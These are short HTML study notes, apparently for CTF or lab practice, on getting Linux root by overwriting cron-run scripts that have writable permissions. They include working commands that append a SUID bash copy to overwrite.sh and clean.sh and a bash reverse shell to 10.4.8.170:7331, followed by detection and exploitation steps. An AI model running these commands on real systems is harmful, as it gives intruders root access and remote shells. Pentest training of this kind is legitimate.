 <!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Cron File Overwrites</title>
</head><body>Escalation via Cron overwrites<br/>
<br/>
<b>cat /etc/crontab</b><br/>
<br/>
you can find file locations with <br/>
<br/>
<b>locate &lt;file name&gt;</b><br/>
<br/>
<br/>
We are looking for jobs with read/write access<br/>
<br/>
<br/>
<img height="43" src="image.png" width="750"/><br/>
<br/>
<br/>
We see above. Read and write... but no execute... that is fine as the file executes with root permission as a cron job.<br/>
<br/>
<br/>
From here, you can overwrite that file. <br/>
<br/>
Reverse shell<br/>
local priv esc<br/>
etc<br/>
<br/>
standard payload<br/>
<br/>
<b>echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' &gt;&gt; /usr/local/bin/overwrite.sh<br/>
<br/>
</b><b>echo 'cp /bin/bash /tmp/bash2; chmod +s /tmp/bash2' &gt; </b>/var/www/html/tmp/clean.sh<br/>
<br/>
bash -i &gt;&amp; /dev/tcp/10.4.8.170/7331 0&gt;&amp;1<br/>
<br/>
cat outt eh file, make sure the command was appended<br/>
<br/>
ls- la<br/>
<br/>
check for update<br/>
<br/>
run with<br/>
<br/>
<b>/tmp/bash -p</b><br/>
<br/>
<br/>
<br/>
*** This is the most common seen in CTFs and the wild<br/>
<br/>
<br/>
<br/>
<br/>
Detection<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type: cat /etc/crontab<br/>
2. From the output, notice the script “overwrite.sh”<br/>
3. In command prompt type: ls -l /usr/local/bin/overwrite.sh<br/>
4. From the output, notice the file permissions.<br/>
<br/>
Exploitation<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type:<br/>
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' &gt;&gt; /usr/local/bin/overwrite.sh<br/>
2. Wait 1 minute for the Bash script to execute.<br/>
3. In command prompt type: /tmp/bash -p<br/>
4. In command prompt type: id</body></html>